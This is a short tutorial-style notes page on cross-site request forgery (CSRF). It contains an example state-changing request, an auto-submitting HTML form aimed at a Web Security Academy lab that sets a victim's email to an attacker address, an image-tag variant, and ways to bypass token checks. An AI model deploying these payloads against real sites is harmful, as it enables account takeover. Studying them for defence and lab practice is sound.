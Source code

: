 ```yaml
---
description: Cross-site request forgery (also known as CSRF).
---
```


# CSRF

Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application. It can cause a victim to carry out and unintended action, like changing email address or chaning passwords. Tree conditions needed:

* A relevevant action: Like changen email or password
* Cookie-based sessions
* No unpredictable request parameters like value of a password.&#x20;

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=mczen@user.com
```

Based on this we can create a simple web page

```html
<html>
	<head>
		<title>CSRF-2</title>
	</head>
	<body>
		<form action="https://0a2200ad04963c7981de6661005c00c2.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="zen@evil.com">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

This wil change the user's emailaddress and can be delivered like

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

#### Common flaws in CSRT tokens

* Apps might validate tokens in POST requests but not in GET requests.
* Remove parameter and value, could bypass validation.
* Sometimes tokens not checked to which users its linked. Accepts any valid token.
